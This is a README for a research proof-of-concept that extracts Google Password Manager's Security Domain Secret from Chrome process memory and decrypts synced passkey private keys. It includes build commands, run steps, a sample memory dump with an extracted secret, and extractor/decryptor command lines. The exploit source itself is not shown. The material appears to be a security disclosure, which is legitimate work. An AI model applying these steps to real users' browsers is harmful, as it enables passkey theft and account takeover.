


<div align="center">

# Pass-ta-key Golden Attack PoC

[](https://opensource.org/licenses/MIT)


</div>

This tool is the PoC implementation for the **Pass-ta-key Golden Attack**, a new method for extracting the **Security Domain Secret (SDS)** of **Google Password Manager (GPM)** from Chrome process memory, parsing the locally stored `WebauthnCredentialSpecifics` records for each GPM passkey, and decrypting the ECDSA P-256 private keys of synced passkeys using the extracted SDS.

**Affected Versions:** Because this vulnerability exploits an architectural flaw, all versions of Chrome across all release channels (Stable, Beta, Dev, and Canary) are affected.

For the full technical analysis, refer to my blog post: https://0rcruxe.github.io/posts/pass-ta-key-golden-attack-sds-extraction/

---

> [!WARNING]
> For educational and research purposes only. Use only on systems you own or have explicit permission to examine. Provided as-is, with no warranties of any kind.

---

## Security Domain Secret Extraction

Extract the SDS from Chrome process memory during device onboarding to the enclave security domain by capturing CBOR buffers.

### Build

    x86_64-w64-mingw32-gcc -O2 -o sds_extractor.exe sds_extractor.c -lws2_32 -liphlpapi -static

### Usage

Target a specific Google account by editing the Chrome profile paths inside the source file. Open Chrome, run the compiled binary, then trigger a passkey authentication (login or registration) to cause device registration with the enclave security domain and capture the SDS during its transit in memory.

### Example

```text
================================================================
  POC - Security Domain Secret (SDS) Extraction
================================================================

[*] Winsock initialized
[*] 'passkey_enclave_state' deleted

[*] Browser PID : 3016
[*] enclave.ua5v.com resolved:
      142.251.209.142

[*] Monitoring TCP connections ...

[19:06:23.157] [FILE] passkey_enclave_state CREATED
[*] Scanning memory for 10 seconds...

[19:06:23.478] [+] New TCP connection detected -> 142.251.209.142
  [19:06:23.828] pass #5  1106 regions  0 candidate
  [19:06:24.410] pass #10  1106 regions  0 candidate
  [19:06:24.511] pass #11  1106 regions  1 candidate
  ...
  [19:06:33.206] pass #97  1121 regions  1 candidate

================================================================
[+] Security Domain Secret (SDS) Dumped : 1 candidate
================================================================

  #1
  Patterns : keys/wrap & passkeys/assert

  ----- [keys/wrap] @ 0x000032D401D10900 -----
  000032D401D10900  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  000032D401D10910  00 00 00 00 00 00 00 00 00 00 cd cd cd cd cd cd  ................
  000032D401D10920  cd cd cd cd cd cd 01 00 00 00 81 a3 63 63 6d 64  ............ccmd
  000032D401D10930  69 6b 65 79 73 2f 77 72 61 70 63 6b 65 79 58 20  ikeys/wrapckeyX
  000032D401D10940  41 f3 37 a9 35 2c 46 5d 0e c0 5f bc 28 0f 31 4a  A.7.5,F].._.(.1J  <<< SDS start
  000032D401D10950  05 9e aa 4e d1 04 cb b2 de 31 00 7a 94 0b a1 85  ...N.....1.z....  <<< SDS end
  000032D401D10960  67 70 75 72 70 6f 73 65 76 73 65 63 75 72 69 74  gpurposevsecurit
  000032D401D10970  79 20 64 6f 6d 61 69 6e 20 73 65 63 72 65 74 cd  y domain secret.
  000032D401D10980  cd cd cd cd cd cd cd cd cd cd cd cd cd cd cd cd  ................
  000032D401D10990  cd cd cd cd cd cd cd cd cd cd cd cd cd cd cd cd  ................

  ----- [passkeys/assert] @ 0x000032D401FD8A42 -----
  000032D401FD8A42  00 08 00 00 00 00 00 00 00 08 00 00 00 00 00 00  ................
  000032D401FD8A52  00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00  ................
  000032D401FD8A62  00 81 a5 63 63 6d 64 6f 70 61 73 73 6b 65 79 73  ...ccmdopasskeys
  000032D401FD8A72  2f 61 73 73 65 72 74 66 73 65 63 72 65 74 58 20  /assertfsecretX
  000032D401FD8A82  41 f3 37 a9 35 2c 46 5d 0e c0 5f bc 28 0f 31 4a  A.7.5,F].._.(.1J  <<< SDS start
  000032D401FD8A92  05 9e aa 4e d1 04 cb b2 de 31 00 7a 94 0b a1 85  ...N.....1.z....  <<< SDS end
  000032D401FD8AA2  67 72 65 71 75 65 73 74 a1 64 72 70 49 64 6a 67  grequest.drpIdjg
  000032D401FD8AB2  69 74 68 75 62 2e 63 6f 6d 68 70 72 6f 74 6f 62  ithub.comhprotob
  000032D401FD8AC2  75 66 59 01 77 0a 10 b3 a4 18 af ce 0e b6 0e c6  ufY.w...........
  000032D401FD8AD2  67 0d e2 6c 1c d1 c2 12 10 95 9f 7f c5 d3 dc 19  g..l............

  Security Domain Secret (SDS) : 41f337a9352c465d0ec05fbc280f314a059eaa4ed104cbb2de31007a940ba185

[+] Done. SDS successfully extracted. Exiting.
```
### Demonstration

https://github.com/user-attachments/assets/883fd09b-8065-4501-8176-3c1280da202b

---

## Google Password Manager Passkey Extraction and Decryption

Parses the LevelDB database directory stored at `/Sync Data/LevelDB` within a Chrome profile, extracts the `WebauthnCredentialSpecifics` records, and decrypts the GPM passkeys’ ECDSA P-256 private keys using the extracted SDS.

### Installation

```bash
pip install -r requirements.txt
```

The `webauthn_credential_specifics.proto` file is already compiled into `webauthn_credential_specifics_pb2.py` and shipped with the repository.

### Usage

```
usage: passkey_extractor.py [-h] <command> [options]

Extract and decrypt Google Password Manager passkeys from a LevelDB database.

commands:

  extract   Extract WebauthnCredentialSpecifics records from a LevelDB directory.
              --leveldb-dir DIR   Path to the LevelDB directory.
              --output-dir DIR    Directory where blobs and metadata are written.

  decrypt   Decrypt a WebAuthn private key (ECDSA P-256) GPM passkey blob using the SDS.
              --blob FILE         Path to the encrypted blob (enc_<id>.bin).
              --sds HEX           32-byte Security Domain Secret (SDS), 64 hex chars.
              --output-dir DIR    Directory where the recovered private key is written.

examples:

  python passkey_extractor.py extract --leveldb-dir ./LevelDB --output-dir ./out
  python passkey_extractor.py decrypt --blob ./out/enc_xxxx.bin --sds <64_hex> --output-dir ./out
```

### Example output

Extraction of **`WebauthnCredentialSpecifics`** records:



Decryption of a GPM passkey’s ECDSA P-256 private key:


